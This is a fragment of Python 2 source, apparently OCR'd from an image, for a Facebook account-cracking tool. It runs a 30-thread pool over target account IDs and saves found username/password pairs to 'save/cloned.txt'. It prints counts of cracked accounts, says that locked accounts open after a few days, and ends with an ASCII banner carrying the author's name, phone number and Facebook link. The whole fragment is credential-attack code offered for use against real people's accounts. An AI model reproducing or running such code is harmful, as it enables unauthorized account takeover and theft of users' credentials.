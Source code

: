                                             else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;93m(✓) ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Rashed Process Has Been Completed ...'
    print 'Total Online/Offline : '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Rashed Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 07 to 09 days")
    print ''
    print """
    ______________________
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║
   ║▒▒▒▒▒▒▒▒▒▒║ ╔════════════╗ ╚════════════╝
  ║██████████╚╗
  ║██╔══╗█╔═╗█║
  ║██║╬╔╝█╚╗║█║
  ║██╚═╝█║█╚╝█║
  ╚╗█████████═╝
     ╚╗║╠╩╩╩╩╩╝
        ║║┈┈┈█▐█████▒.｡oO
        ║██╠╦╦╦╗
        ╚╗██████
           ╚════╝

\033[1;96mThanks me later
\033[1;96m my contacts Number: +27618543540
\033[1;95mFb\033[1;97mRashed Hossain
\033[1;95mfacebook\033[1;97mhttps://www.facebook.com/Wwwwwwwwwwww.Mizan.Vau8080"""

    
    raw_input("\n\033[1;92m[\033[1;92mRashedBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()




# Okay Decompiling AWAIS
